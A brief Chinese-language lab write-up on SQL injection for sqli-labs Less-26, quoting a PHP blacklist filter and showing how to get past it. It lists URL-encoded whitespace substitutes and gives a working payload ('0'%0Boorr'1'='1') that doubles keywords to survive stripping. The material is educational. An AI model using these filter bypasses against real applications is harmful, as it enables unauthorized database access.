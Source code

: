 ## 空格绕过

### 绕过手法

1. 使用 + 号代替空格

2. 使用URL编码代替空格

   ```
   spaces -------------------- %20
   TAB 09 horizontal TAB ----- %09
   LF OA newline ------------- %0A
   F 0C new page ------------- %0C
   CR 0D carriage return ----- %0D
   VT 0B vertival TAB -------- %0B
   -OA-(MySQL only) ---------- %0A
   ```

### 注入原理

#### 代码审计

源码中对下面的字符串都做了空的替换

```
function blacklist($id)
{
	$id= preg_replace('/or/i',"", $id);			//strip out OR (non case sensitive)
	$id= preg_replace('/and/i',"", $id);		//Strip out AND (non case sensitive)
	$id= preg_replace('/[\/\*]/',"", $id);		//strip out /*
	$id= preg_replace('/[--]/',"", $id);		//Strip out --
	$id= preg_replace('/[#]/',"", $id);			//Strip out #
	$id= preg_replace('/[\s]/',"", $id);		//Strip out spaces
	$id= preg_replace('/[\/\\\\]/',"", $id);		//Strip out slashes
	return $id;
}
```

### 注入流程-Less-26

#### 尝试绕过空格

正常回显，成功绕过

```
http://192.168.231.129:9001/Less-26/?id=0'%0Boorr'1'='1
```

<img src="%E6%A9%99%E5%AD%90%E7%A7%91%E6%8A%80.assets/image-20230607145645271.png" alt="image-20230607145645271" style="zoom: 33%;" />
